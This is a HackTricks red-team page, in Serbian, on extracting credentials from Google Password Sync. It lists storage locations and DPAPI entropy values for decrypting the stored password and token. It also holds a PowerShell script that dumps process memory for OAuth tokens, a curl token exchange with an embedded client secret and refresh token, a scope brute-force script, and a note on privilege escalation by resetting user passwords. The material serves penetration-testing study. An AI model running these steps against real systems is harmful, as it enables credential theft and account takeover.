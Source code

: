# GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Osnovne informacije

Ovo je binarni fajl i servis koji Google nudi kako bi **održao sinhronizovane lozinke korisnika između AD** i Workspace-a. Svaki put kada korisnik promeni svoju lozinku u AD-u, ona se postavlja na Google.

Instalira se u `C:\Program Files\Google\Password Sync` gde možete pronaći binarni fajl `PasswordSync.exe` za konfiguraciju i `password_sync_service.exe` (servis koji će nastaviti da radi).

### GPS - Konfiguracija

Da biste konfigurisali ovaj binarni fajl (i servis), potrebno je **dati mu pristup Super Admin principalu u Workspace-u**:

* Prijavite se putem **OAuth** sa Google-om i onda će **sačuvati token u registru (kriptovan)**
* Dostupno samo na domen kontrolerima sa GUI
* Dati neke **akreditivе Servisnog naloga iz GCP-a** (json fajl) sa dozvolama za **upravljanje korisnicima Workspace-a**
* Veoma loša ideja jer ti akreditivi nikada ne isteknu i mogu se zloupotrebiti
* Veoma loša ideja dati SA pristup preko workspace-a jer bi SA mogao biti kompromitovan u GCP-u i moguće je prebaciti se na Workspace
* Google to zahteva za domen kontrolisane bez GUI
* Ovi akreditivi se takođe čuvaju u registru

Što se tiče AD-a, moguće je naznačiti da koristi trenutni **kontekst aplikacija, anonimno ili neke specifične akreditive**. Ako je opcija akreditiva izabrana, **korisničko ime** se čuva unutar fajla na **disku** a **lozinka** je **kriptovana** i čuva se u **registru**.

### GPS - Ispisivanje lozinke i tokena sa diska

{% hint style="success" %}
Napomena da [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) može da detektuje **GPS**, dobije informacije o konfiguraciji i **čak dekriptuje lozinku i token**.
{% endhint %}

U fajlu **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** moguće je pronaći deo konfiguracije kao što je **`baseDN`** AD-a koji je konfigurisan i **`username`** čiji se akreditivi koriste.

U registru **`HKLM\Software\Google\Google Apps Password Sync`** moguće je pronaći **kriptovani refresh token** i **kriptovanu lozinku** za AD korisnika (ako ih ima). Štaviše, ako se umesto tokena koriste neki **SA akreditivi**, takođe je moguće pronaći te kriptovane u toj adresi registra. **Vrednosti** unutar ovog registra su dostupne samo **Administratorima**.

Kriptovana **lozinka** (ako je ima) se nalazi unutar ključa **`ADPassword`** i kriptovana je koristeći **`CryptProtectData`** API. Da biste je dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** prilikom korišćenja **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Kriptovani token (ako ga ima) se nalazi unutar ključa **`AuthToken`** i kriptovan je koristeći **`CryptProtectData`** API. Da biste ga dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** prilikom korišćenja **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Štaviše, takođe je kodiran koristeći base32hex sa rečnikom **`0123456789abcdefghijklmnopqrstv`**.

Vrednosti entropije su pronađene korišćenjem alata. Konfigurisano je da prati pozive ka **`CryptUnprotectData`** i **`CryptProtectData`** i zatim je alat korišćen za pokretanje i praćenje `PasswordSync.exe` koji će dekriptovati konfigurisanu lozinku i auth token na početku, a alat će **prikazati vrednosti za korišćenu entropiju** u oba slučaja:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Napomena da je takođe moguće videti **dekriptovane** vrednosti u ulazu ili izlazu poziva ovih API-ja takođe (u slučaju da u nekom trenutku Winpeas prestane da radi).

U slučaju da je Password Sync **konfigurisana sa SA akreditivima**, takođe će biti sačuvana u ključevima unutar registra **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Ispisivanje tokena iz memorije

Baš kao i sa GCPW, moguće je ispisati memoriju procesa `PasswordSync.exe` i `password_sync_service.exe` i moći ćete da pronađete refresh i access tokene (ako su već generisani).\
Pretpostavljam da biste takođe mogli pronaći konfigurirane akreditive za AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> i <code>password_sync_service.exe</code> procese i pretraži tokene</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generisanje pristupnih tokena iz osvežavajućih tokena

Korišćenjem osvežavajućeg tokena moguće je generisati pristupne tokene koristeći ga i ID klijenta i tajnu klijenta navedene u sledećoj komandi:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Imajte na umu da čak i ako imate refresh token, nije moguće zatražiti bilo koji scope za access token jer možete zatražiti samo **scope-ove koje podržava aplikacija u kojoj generišete access token**.

Takođe, refresh token nije važeći u svakoj aplikaciji.
{% endhint %}

Podrazumevano, GPS neće imati pristup kao korisnik svim mogućim OAuth scope-ovima, pa možemo koristiti sledeći skript da pronađemo scope-ove koji se mogu koristiti sa `refresh_token` za generisanje `access_token`:

<details>

<summary>Bash skript za brute-force scope-ove</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

I ovo je izlaz koji sam dobio u vreme pisanja:
```
https://www.googleapis.com/auth/admin.directory.user
```
Koji je isti kao onaj koji dobijate ako ne navedete nikakav opseg.

{% hint style="danger" %}
Sa ovim opsegom možete **izmeniti lozinku postojećeg korisnika kako biste eskalirali privilegije**.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
